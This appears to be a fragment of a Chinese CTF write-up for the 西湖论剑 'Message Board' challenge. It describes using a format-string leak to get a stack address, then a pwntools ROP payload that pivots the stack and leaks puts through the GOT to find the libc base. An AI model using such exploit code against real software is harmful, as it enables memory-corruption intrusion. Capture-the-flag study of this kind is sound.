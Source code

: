 ‍

### 西湖论剑-Message Board

[![](assets/1701606597-7b0511c5591ff496bc5f2ac0f3851c06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170501-39ad1724-845f-1.png)

[![](assets/1701606597-960578ddacb1d2dc09f71cc5b62d9588.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170505-3ba9e958-845f-1.png)

格式字符串漏洞获取栈地址，下一处读入利用栈地址获取 libc 基址

```bash
payload = p64(stack_addr+0xb0+0x28) #rbp
payload += p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(0x401378) 
payload = payload.ljust(0xb0,b'\0')
payload+= p64(stack_addr)+p64(0x4012e0)
p.send(payload)
```
